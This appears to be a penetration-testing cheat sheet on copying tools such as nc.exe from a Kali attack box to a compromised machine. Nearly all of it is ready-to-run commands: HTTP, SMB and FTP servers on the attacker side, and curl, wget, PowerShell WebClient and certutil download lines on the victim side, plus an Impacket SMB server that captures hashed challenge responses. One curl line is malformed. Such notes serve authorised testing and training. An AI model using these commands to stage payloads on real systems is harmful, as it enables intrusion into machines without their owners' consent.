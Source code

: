 # Transfering Files

Often times on an engagement I find myself needing to copy a tool or a payload from my Kali linux attack box to a compromised machine.

## HTTP
The two ways I usually serve a file over HTTP from Kali are either through Apache or through a Python HTTP server.

### Apache
To serve a file up over Apache, just simply copy it to /var/www/html and enable the Apache service. Apache is installed by default in Kali:
```
root@kali:~/shells# cp nc.exe /var/www/html
root@kali:~/shells# systemctl start apache
```

### Python
The other option is to just start a Python webserver directly inside the shells directory. This only requires a single line of Python thanks to Python’s SimpleHTTPServer module:

```
python -m SimpleHTTPServer 8080
```
```
python3 -m http.server
```
By default it serves on port 8000, but you can also specify a port number at the end.

### Downloading the files
Browser
Simply browse to http://YOUR-KALI-IP/nc.exe and use the browser to download the file.

#### Command line

#### Linux

##### cUrl
```
curl https//YOUR-KALI-IP/nc.exe -o nc.exe
```
##### wget
```
wget -O nc.exe http://YOUR-KALI-IP/nc.exe
```

#### Windows 
##### Powershell
```
(new-object System.Net.WebClient).DownloadFile('http://YOUR-KALI-IP/nc.exe','C:\Users\<user>\Desktop\nc.exe')
```
##### CMD
```
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://YOUR-KALI-IP/nc.exe','C:\Users\<user>\Desktop\nc.exe')"
```

## SMB

### Setting up the server
Quick and dirty

Enter smbserver.py, part of the Impacket project,the python script takes care of all the configurations for you, binds to 445, and accepts any authentication. It will even print out the hashed challenge responses for any system that connects to it.
`cd` to `/opt/impacket/examples`
```
python smbserver.py ROPNOP /root/shells
```
In one line we’ve got an SMB share up and running. You can confirm it with smbclient from Linux:
```
smbclient -L <kali-ip> --no-pass
```
Windows:
```
net view \\<kali-ip>
```

#### Copying Files
Putting files using smbclient once you connect to it using `smbclient -L <kali-ip> --no-pass`
```
put nc.exe 
```
Getting files
Linux
```
get nc.exe .
```
On windows
```
dir \\<kali-ip>\ROPNOP
copy \\<kali-ip>\ROPNOP\nc.exe .
```

# FTP
On Attacker
```
python -m pyftpdlib 21
```
then on victim machine
```
ftp 10.10.10.10
```

# Windows
```
certutil.exe -urlcache -f http://10.0.2.4/Wise.exe Wise.exe
```
